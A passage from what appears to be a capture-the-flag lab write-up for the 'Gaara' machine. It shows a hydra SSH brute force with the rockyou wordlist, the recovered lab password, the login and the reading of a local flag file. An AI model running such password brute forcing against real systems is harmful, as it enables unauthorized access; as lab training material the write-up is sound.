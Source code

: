 Gobuster found no results.

12) I try the username:password combination against the ssh server:

```
┌──(kali㉿kali)-[~]
└─$ ssh gaara@gaara  
The authenticity of host 'gaara (192.168.234.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gaara' (ED25519) to the list of known hosts.
gaara@gaara's password: 
Permission denied, please try again.
```

Did not work... I try a few more passwords e.g. "admin", "root", "password".

13) I try brute forcing the ssh server with user `gaara`, using hydra:

```
┌──(kali㉿kali)-[~]
└─$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://gaara -t 32
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-03 13:20:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 32 tasks per 1 server, overall 32 tasks, 14344399 login tries (l:1/p:14344399), ~448263 tries per task
[DATA] attacking ssh://gaara:22/
[22][ssh] host: gaara   login: gaara   password: iloveyou2
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 7 to do in 00:01h, 20 active
```

That worked! We got `gaara:iloveyou2`

14) We try our newly found credentials against the ssh server and look for our access flag:

```
┌──(kali㉿kali)-[~]
└─$ ssh gaara@gaara                                     
gaara@gaara's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ ls -la /home/gaara | grep -e proof -e flag -e txt
-rw-r--r-- 1 gaara gaara   32 Apr 27  2021 flag.txt
-rw-r--r-- 1 gaara gaara   33 Mar  3 13:48 local.txt
gaara@Gaara:~$ cat /home/gaara/flag.txt
Your flag is in another file...
gaara@Gaara:~$ cat /home/gaara/local.txt
c1883eaee85970068d449a8127eeebf1
```
